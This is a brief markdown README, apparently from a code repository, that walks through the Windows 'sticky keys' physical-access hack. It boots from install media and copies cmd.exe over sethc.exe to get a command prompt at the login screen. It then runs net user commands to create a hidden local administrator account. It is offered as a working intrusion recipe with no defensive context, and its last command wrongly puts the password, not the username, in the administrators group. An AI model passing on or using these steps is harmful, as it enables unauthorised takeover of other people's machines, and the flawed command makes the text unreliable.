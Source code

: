#WindowsPhysicalHack#

##Create windows bootable disk##
##Open cmd from the bootable disk##
##Cd to C drive##
```c:\windows\system32```
```copy sethc.exe setchc_old.exe```
```copy cmd.exe sethc.exe```
##Press shift key 5 times until cmd pops up##
```net user knight brucewayne /add```
```net localgroup administrators brucewayne /add```
